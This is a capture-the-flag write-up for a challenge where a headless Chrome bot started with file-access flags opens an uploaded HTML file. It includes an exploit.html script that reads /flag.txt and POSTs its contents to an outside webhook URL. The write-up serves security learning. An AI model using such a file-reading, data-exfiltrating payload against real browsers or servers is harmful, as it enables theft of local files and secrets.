 # Description

I heard you like flags, so I launched Chrome with a lot of flags so you can get your flag!
The flag is in `/flag.txt`, and the bot will visit the HTML file you uploaded!

# Solution

The basic idea of the challenge was that you could run your code inside google chrome with bunch of flags enabled. 
One of the flags was `--allow-file-access-from-files`, which we can use to get the contents of the flag file.
Lets take a look at how the server processes our request:

```javascript
app.post('/submit', upload.single('htmlFile'), (req, res) => {

  console.log(req.file);
  const { filename, path: filePath } = req.file;

  if (!filename || !filePath) {
    return res.status(400).send('No file uploaded');
  }

  const userDir = '/tmp/chrome-user-data-dir-' + Math.random().toString(36).substring(7);
  // Don't even try to remove --headless, everything will break. If you want to try stuff, use --remote-debugging-port and disable all other remote debugging flags.
  const command = `bash -c "google-chrome-stable --disable-gpu --headless=new --no-sandbox --no-first-run ${flags} ${filePath}"`;

  res.send('File uploaded and processed successfully. Launched Chrome:<br><br>' + command);
```

This is a classic XSS where we need to upload a malicious html page, which gets the contents of the file and returns it back to us.
I have made a `exploit.html` file which does that for us:
```javascript
<script>
    fetch("/flag.txt")
        .then(response => response.text())
        .then(text => {
            fetch("https://webhook-test.com/570a3259252e5b612d7913b245f166d6", {
                method: "POST",
                body: text
            });
        });
</script>
```

First, it reads the flag file and sends a POST request to [webhook-test](https://webhook.site/), where you can inspect incoming HTTP requests.
After we upload the file we can inspect the webhook site and get the flag:
<img width="143" alt="Untitled" src="https://github.com/AdamZvara/CTF/assets/36104483/2507f769-5699-4d06-a6de-08e6b2e0a23b">
